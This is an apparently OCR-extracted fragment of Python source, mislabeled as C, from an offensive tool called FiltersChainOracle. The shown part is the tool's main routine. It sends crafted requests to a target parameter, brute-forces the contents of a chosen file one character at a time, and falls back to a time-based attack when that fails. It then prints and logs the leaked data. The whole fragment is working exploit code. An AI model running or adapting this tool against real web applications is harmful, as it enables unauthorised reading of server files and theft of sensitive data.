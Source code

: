 ```c
        # Offset from which a char should be leaked

        offset = 0
        if args.offset:
            offset = args.offset
        
        # Log file path
        self.log_file = False
        if args.log:
            self.log_file = args.log
            
        # Attack launcher
        self.requestor = Requestor(args.file, args.target, args.parameter, data, headers, verb, in_chain, args.proxy, time_based_attack, delay, json_input, match)
        self.bruteforcer = RequestorBruteforcer(self.requestor, offset)
        signal.signal(signal.SIGINT, self.signal_handler)

        # Auto fallback to time based attack

        self.bruteforcer.bruteforce()

        # Result parsing
        if self.bruteforcer.base64:
            print("[+] File {} leak is finished!".format(self.requestor.file_to_leak))
            print(self.bruteforcer.base64)
            print(self.bruteforcer.data)
            if self.log_file:
                self.log_in_file("# The following data was leaked from {} from the file {}\n{}\n".format(self.requestor.target, self.requestor.file_to_leak, self.bruteforcer.data.decode("utf-8")))
            exit()
        else:
            print("[-] File {} is either empty, or the exploit did not work :(".format(self.requestor.file_to_leak))
            time_based_attack = 1
            print("[*] Auto fallback to time based attack")
            self.requestor = Requestor(args.file, args.target, args.parameter, data, headers, verb, in_chain, args.proxy, time_based_attack, delay, json_input, match)
            self.bruteforcer = RequestorBruteforcer(self.requestor, offset)
            self.bruteforcer.bruteforce()
        
        if verb == Verb.GET:
            print("[*] You passed your payload on a GET parameter, the leak might be partial! (~135 chars max by default)")
        
        print(self.bruteforcer.base64)
        print(self.bruteforcer.data)

if __name__ == "__main__":
    filters_chain_oracle = FiltersChainOracle()
    filters_chain_oracle.main()
    sys.exit(0)
```
